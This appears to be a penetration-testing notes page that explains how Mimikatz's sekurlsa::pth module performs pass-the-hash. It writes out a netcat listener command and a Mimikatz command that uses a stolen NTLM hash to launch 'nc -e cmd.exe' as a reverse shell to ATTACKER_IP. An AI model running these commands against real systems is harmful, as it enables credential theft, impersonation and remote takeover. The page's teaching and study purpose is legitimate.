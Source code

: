 # pass-the-hash

{% embed url="https://www.praetorian.com/blog/inside-mimikatz-part1/" %}

{% embed url="https://www.praetorian.com/blog/inside-mimikatz-part2/" %}

### Overview of how _Mimikatz_ implements the pass-the-hash technique

I aim to provide a general high-level overview of how the `sekurlsa::pth` module works to allow an attacker to impersonate a user.&#x20;

The `sekurlsa::pth` module allows an attacker to impersonate a user by spawning a new logon session on the local machine, and associating the attacker’s supplied credentials with that session. It will then launch a process specified by the attacker (reverse shell, etc.) under the context of the new forged session.

This entire process happens locally, and no external authentication is performed at this stage. However, subsequent network requests made from the new session will use the injected credentials, allowing us to perform lateral movement and other actions without knowing the actual password.

#### Example

Suppose we have found a user's NTLM hash using the `lsadump::sam` or `sekurlsa::msv` methods. We can use the found hash to retrieve a shell session as the found user.

First, we need to establish a listener to catch the shell:

```sh
$ nc -lvnp PORT
```

Next, perform the attack:

{% code overflow="wrap" %}
```
mimikatz # sekurlsa::pth /user:<username> /domain:<domain> /ntlm:<hash> /run:"nc -e cmd.exe ATTACKER_IP PORT" 
```
{% endcode %}

Note that if we execute the `whoami` command, we will still see the original user we were using before performing the attack, but any commands executed from this session will use the injected credentials.


